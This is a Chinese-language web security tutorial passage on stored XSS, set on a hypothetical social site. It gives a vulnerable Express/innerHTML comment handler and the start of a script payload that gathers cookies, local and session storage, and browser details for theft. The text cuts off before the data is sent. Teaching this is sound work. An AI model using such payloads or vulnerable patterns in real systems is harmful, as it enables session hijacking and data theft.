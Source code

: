 	- [ ] Secure 标记
	- [ ] SameSite 属性
- [ ] 框架安全
	- [ ] 使用最新版本
	- [ ] 启用安全特性
	- [ ] 避免危险 API

## 3. 一个 **窃取用户信息**XSS 攻击示例

### 3.1. 攻击场景设置

假设有一个社交网站 `social.example.com`，它有一个**评论功能**。用户可以发表评论，评论内容会被显示在页面上。

### 3.2. 漏洞代码示例

假设网站的评论展示代码如下：包括前后端代码处理逻辑

```javascript
// 后端代码 (Node.js + Express)
app.post('/comment', (req, res) => {
    const comment = req.body.comment;
    // 直接存储用户输入，没有进行任何过滤
    db.saveComment(comment);
});

// 前端展示代码
function displayComment(comment) {
    // 直接插入 HTML，存在 XSS 漏洞
    document.getElementById('comments').innerHTML += comment;
}
```

### 3.3. 攻击代码示例

攻击者可以**提交以下评论内容**：

```html hl:5,31,39
<script>
    // 创建一个用于收集信息的函数
    function stealInfo() {
        // 收集用户 Cookie
        const cookies = document.cookie;
        
        // 收集用户的本地存储数据
        const localStorage = JSON.stringify(window.localStorage);
        
        // 收集用户的会话存储数据
        const sessionStorage = JSON.stringify(window.sessionStorage);
        
        // 收集用户的基本信息
        const userInfo = {
            url: window.location.href,
            userAgent: navigator.userAgent,
            screenRes: `${window.screen.width}x${window.screen.height}`,
            language: navigator.language,
            platform: navigator.platform
        };

        // 构造要发送的数据
        const stolenData = {
            cookies,
            localStorage,
            sessionStorage,
            userInfo,
            timestamp: new Date().toISOString()
```